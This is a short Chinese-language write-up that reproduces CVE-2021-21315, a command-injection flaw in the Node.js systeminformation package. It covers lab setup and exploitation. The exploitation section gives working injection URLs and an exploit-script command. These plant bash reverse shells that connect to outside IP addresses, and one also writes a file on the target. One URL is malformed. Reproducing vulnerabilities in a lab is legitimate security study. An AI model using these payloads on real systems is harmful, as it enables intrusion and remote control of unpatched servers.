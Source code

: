 # CVE-2021-21315 Node.js 命令sanitize注入漏洞

## 概述
Node.js-systeminformation是用于获取各种系统信息的Node.JS模块，它包含多种轻量级功能，可以检索详细的硬件和系统相关信息。自发布至今，systeminformation软件包下载次数近3400万。

2021年02月24日，npm团队发布安全公告，Node.js库中的systeminformation软件包中存在一个命令注入漏洞（CVE-2021-21315），其CVSSv3评分为7.8。

攻击者可以通过在未经过滤的参数中注入Payload来执行系统命令。

## 影响范围
Systeminformation < 5.3.1

## 环境搭建
下载漏洞代码

`wget https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC`

安装漏洞环境

```
wget https://nodejs.org/download/release/v12.18.4/node-v12.18.4-linux-x64.tar.xz
tar -xf node-v12.18.4-linux-x64.tar.xz
mv node-v12.18.4-linux-x64 nodejs
mv nodejs/ /usr/local/sbin/
ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/
```

运行漏洞代码
```
cd CVE-2021-21315-PoC
node index.js
```

![1628071406821.png](./img/1628071406821.png)

## 漏洞利用

### POC
```
http://127.0.0.1:8000/api/getServices?name[]=$(bash -i >& /dev/tcp/192.168.230.201/1325 0>&1)
http://127.0.0.1:8000yoursite.com/api/getServices?name[]=$(echo -e 'qwe' > pwn.txt)
```

### Exp
```
python CVE-2021-21315.py http://127.0.0.1:8000/ "bash -i >& /dev/tcp/127.0.0.1/4242 0>&1"
```

![1628071567399.png](./img/1628071567399.png)

![1628071553719.png](./img/1628071553719.png)

